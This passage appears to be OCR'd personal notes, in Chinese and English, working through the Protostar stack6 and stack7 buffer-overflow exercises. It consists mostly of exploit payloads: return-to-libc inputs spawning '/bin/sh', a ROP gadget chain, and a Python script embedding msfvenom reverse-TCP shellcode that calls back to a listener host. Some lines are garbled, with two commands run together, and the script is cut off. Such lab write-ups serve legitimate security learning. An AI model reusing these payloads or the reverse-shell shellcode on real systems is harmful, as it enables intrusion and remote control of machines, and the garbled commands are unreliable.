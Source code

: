         output:0xb7ec60c0
        python -c "print 'A'*80+'\xb0\xff\xec\xb7'+'\xc0\x60\xec\xb7'+'\x58\xf7\xff\xbf'+'echo succeed'+'\x00'" | ./stack6ython -c "print 'A'*80+'\xb0\xff\xec\xb7'+'\xc0\x60\xec\xb7'+'\x48\xf7\xff\xbf'+'/bin/sh\x00'" | ./stack6
        the output is not obviously
        python -c "print 'A'*80+'\xb0\xff\xec\xb7'+'\xc0\x60\xec\xb7'+'\x28\xf8\xff\xbf'+'echo 123456'+'\x00'" | /opt/protostar/bin/stack6
        output:看上去什么也没发生,应该没有执行成功,然而后来gdb却发现可以成功,具体如下
        cd /tmp
        vi stack6.py
        --------/tmp/stack6.py----------
        buf='A'*80+'\xb0\xff\xec\xb7'+'\xc0\x60\xec\xb7'+'\x28\xf8\xff\xbf'+'/bin/echo succeed > /tmp/succeed.txt'+'\x00'
        f=open("/tmp/stack6.txt","a+")
        f.write(buf)
        f.close()
        -------------end----------------
        gdb /opt/protostar/bin/stack6
        r < /tmp/stack6.txt
        vi /tmp/succeed.txt
        output:succeed
        此时已经成功写文件,奇怪!居然只有在gdb调试的时候用finish才会成功执行,而不用上面的gdb的过程无法成功执行命令

#### 0x07 stack7
    mykey:
        形如0xbxxxxxxx或0xfxxxxxxx的地址(system等系统函数地址)不可使用
        objdump -d stack7
        find .text has someplace with:
        ---------.text-----------
        8048492:       5b                      pop    %ebx
        8048493:       5d                      pop    %ebp
        8048494:       c3                      ret  
        -----------end-----------
        构造如下链:
        'A'*80+'\x92\x84\x04\x08'+'BBBBBBBB'+shellcode_addr+shellcode
        use msf start a listener with the same payload like below
        vi /tmp/stack7.py
        -----------stack7.py---------
        #!/usr/bin/python
        import os
        import sys
        import struct
        
        shellcode1="\x90"*40
        shellcode1="\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x04\xb3\x01\x68\x64\x21\x21\x21\x68\x4f\x77\x6e\x65\x89\xe1\xb2\x08\xcd\x80\xb0\x01\x31\xdb\xcd\x80"
        
        shellcode =  "\x90"*30
        #msfvenom -p linux/x86/shell/reverse_tcp LHOST=192.168.3.106 LPORT=4444 -b \x00 -f py
        shellcode += "\xda\xd1\xbe\xd9\xba\xd5\x41\xd9\x74\x24\xf4\x58\x29"
        shellcode += "\xc9\xb1\x12\x31\x70\x1a\x83\xc0\x04\x03\x70\x16\xe2"
        shellcode += "\x2c\x8b\x0e\xb6\x2d\xbf\xf3\x6a\xdb\x42\x44\xea\x92"
        shellcode += "\xa2\x69\x73\x33\x7f\x1a\xb4\x93\x83\xb0\x5c\xe1\x83"
        shellcode += "\x55\xc1\x6c\x62\x3f\x9f\x36\x35\x91\x08\x4f\x54\x52"
        shellcode += "\x7a\xcf\x25\x52\x3d\xcf\x59\x5d\x3d\x46\xba\x9c\xd6"
        shellcode += "\x54\xfc\xfc\x25\xd4\x83\xcf\xb6\x4f\xf5\x31\x2f\xd9"
        shellcode += "\x09\x02\x53\xe8\x92\x9d\xb5"
        